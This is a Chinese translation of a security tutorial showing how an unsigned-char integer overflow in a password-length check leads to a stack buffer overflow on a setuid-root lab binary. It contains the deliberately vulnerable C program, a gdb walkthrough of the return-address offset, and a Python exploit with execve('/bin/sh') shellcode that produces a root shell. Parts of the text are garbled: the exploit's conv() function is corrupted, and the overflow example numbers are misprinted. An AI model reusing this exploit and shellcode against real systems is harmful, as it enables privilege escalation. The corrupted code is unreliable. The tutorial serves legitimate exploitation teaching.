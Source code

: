 # 整数溢出

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Integer Overflow](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/)

虚拟机安装：Ubuntu 12.04（x86）

**什么是整数溢出？**

存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，这可能导致任意代码执行。在这篇文章中，我将仅谈论整数溢出导致堆栈溢出，整数溢出导致堆溢出将在后面的单独的帖子中讨论。

数据类型大小及范围：

没图

当我们试图存储一个大于最大支持值的值时，我们的值会被包装 。例如，当我们尝试将2147483648存储到带符号的int数据类型时，它将被包装并存储为-21471483648。这被称为整数溢出，这种溢出可能导致任意代码执行

**整数下溢**

类似地，存储小于最小支持值的值称为整数下溢。例如，当我们尝试将-2147483649存储到带符号的int数据类型时，它将被包装并存储为21471483647.这称为整数下溢。在这里我只会谈论整数溢出，但是这个过程对于下溢也是一样的！

漏洞代码：

```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```
编译命令

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

上述漏洞代码的[1]行显示了一个整数溢出错误。strlen（）的返回类型是size_t（unsigned int），它存储在unsigned char数据类型中。因此，任何大于unsigned char的最大支持值的值都会导致整数溢出。因此当密码长度为261时，261将被包裹并存储为“passwd_len”变量中的5！由于这个整数溢出，可以绕过行[2]执行的边界检查，从而导致基于堆栈的缓冲区溢出！而且在这篇文章中看到，基于堆栈的缓冲区溢出导致任意的代码执行。

在研究漏洞代码之前，为了更好的理解，我们可以反汇编并绘制出漏洞代码的堆栈布局！

反汇编：

```asm
(gdb) disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
 //Function Prologue
 0x0804849e <+0>: push %ebp                               //backup caller's ebp
 0x0804849f <+1>: mov %esp,%ebp                           //set callee's ebp to esp

 0x080484a1 <+3>: push %edi                               //backup edi
 0x080484a2 <+4>: sub $0x34,%esp                          //stack space for local variables
 0x080484a5 <+7>: mov 0x8(%ebp),%eax                      //eax = passwd
 0x080484a8 <+10>: movl $0xffffffff,-0x1c(%ebp)           //String Length Calculation -- Begins here
 0x080484af <+17>: mov %eax,%edx
 0x080484b1 <+19>: mov $0x0,%eax
 0x080484b6 <+24>: mov -0x1c(%ebp),%ecx
 0x080484b9 <+27>: mov %edx,%edi
 0x080484bb <+29>: repnz scas %es:(%edi),%al
 0x080484bd <+31>: mov %ecx,%eax
 0x080484bf <+33>: not %eax
 0x080484c1 <+35>: sub $0x1,%eax                          //String Length Calculation -- Ends here
 0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
 0x080484c7 <+41>: cmpb $0x3,-0x9(%ebp)                   //if(passwd_len <= 4 )
 0x080484cb <+45>: jbe 0x8048500 <validate_passwd+98>     //jmp to 0x8048500
 0x080484cd <+47>: cmpb $0x8,-0x9(%ebp)                   //if(passwd_len >=8)
 0x080484d1 <+51>: ja 0x8048500 <validate_passwd+98>      //jmp to 0x8048500
 0x080484d3 <+53>: movl $0x8048660,(%esp)                 //else arg = format string "Valid Password"
 0x080484da <+60>: call 0x80483a0 <puts@plt>              //call puts
 0x080484df <+65>: mov 0x804a020,%eax                     //eax = stdout 
 0x080484e4 <+70>: mov %eax,(%esp)                        //arg = stdout
 0x080484e7 <+73>: call 0x8048380 <fflush@plt>            //call fflush
 0x080484ec <+78>: mov 0x8(%ebp),%eax                     //eax = passwd
 0x080484ef <+81>: mov %eax,0x4(%esp)                     //arg2 = passwd
 0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
 0x080484f6 <+88>: mov %eax,(%esp)                        //arg1 = passwd_buf
 0x080484f9 <+91>: call 0x8048390 <strcpy@plt>            //call strcpy
 0x080484fe <+96>: jmp 0x8048519 <validate_passwd+123>    //jmp to 0x8048519
 0x08048500 <+98>: movl $0x804866f,(%esp)                 //arg = format string "Invalid Password"
 0x08048507 <+105>: call 0x80483a0 <puts@plt>             //call puts
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb

 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```

堆栈布局：图片失效

由于我们已经知道长度为261的密码，所以绕过边界检查，并允许我们覆盖堆栈中的返回地址。让我们通过发送一系列的A来测试它。

测试步骤1：是否可以覆盖返回地址？

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

测试步骤2：目的缓冲区的偏移量是多少？

这里让我们从缓冲区'passwd_buf'中找出什么偏移返回地址。反汇编并绘制了validate_passwd（）的堆栈布局，现在可以尝试找到偏移位置信息！堆栈布局显示返回地址位于缓冲区'passwd_buf'的偏移（0x18）处。0x18计算如下：

```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```

其中

```
0xb is ‘passwd_buf’ size
0x1 is ‘passwd_len’ size
0x4 is alignment space
0x4 is edi
0x4 is caller’s EBP
```

因此，用户输入的“A” * 24 + “B” * 4 + “C” * 233，以A覆盖passwd_buf，passwd_len，对齐空间，edi和调用者的ebp，以“BBBB”覆盖返回地址，以"C"覆盖剩余空间.

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。位于堆栈位置（0xbffff1fc）的返回地址被“BBBB”覆盖。有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

利用代码：

```py
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```

执行上面的exploit程序，给我们root shell（如下所示）：

```
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

参考

<http://phrack.org/issues/60/10.html>
